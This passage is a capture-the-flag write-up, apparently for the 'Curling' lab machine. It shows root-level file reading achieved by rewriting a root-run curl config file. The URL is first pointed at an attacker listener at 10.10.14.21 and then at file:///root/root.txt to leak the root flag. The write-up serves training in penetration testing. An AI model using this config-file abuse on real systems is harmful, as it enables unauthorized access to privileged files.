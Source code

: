 #### 4.1. Admin area
```
floris@curling:~$ ls -la admin-area/
total 28
drwxr-x--- 2 root   floris  4096 May 22 19:04 .
drwxr-xr-x 7 floris floris  4096 Nov 11 13:31 ..
-rw-rw---- 1 root   floris    25 Nov 11 14:54 input
-rw-rw---- 1 root   floris 14238 Nov 11 14:54 report
floris@curling:~$ cat input
url = "http://127.0.0.1"
floris@curling:~$ echo 'url = "http://10.10.14.21:9999"' > input
floris@curling:~$ cat input
url = "http://10.10.14.21:9999"
```


#### 4.2. Local listener
```
# ip=`ip a | grep tun0 | grep inet | awk '{print $2}' | sed 's/\/.*//g'`
# echo $ip
10.10.14.21
# python -m SimpleHTTPServer 9999
Serving HTTP on 0.0.0.0 port 9999 ...
10.10.10.150 - - [11/Nov/2018 10:37:49] "GET / HTTP/1.1" 200 -
```
Note: there is an automatic task that makes an HTTP request on the URL in the `input` config file


#### 4.3. Root flag
```
floris@curling:~$ echo 'url = "file:///root/root.txt"' > input
floris@curling:~$ cat input
url = "file:///root/root.txt"
floris@curling:~/admin-area$ cat report
82c198ab6fc5365fdc6da2ee5c26064a
```
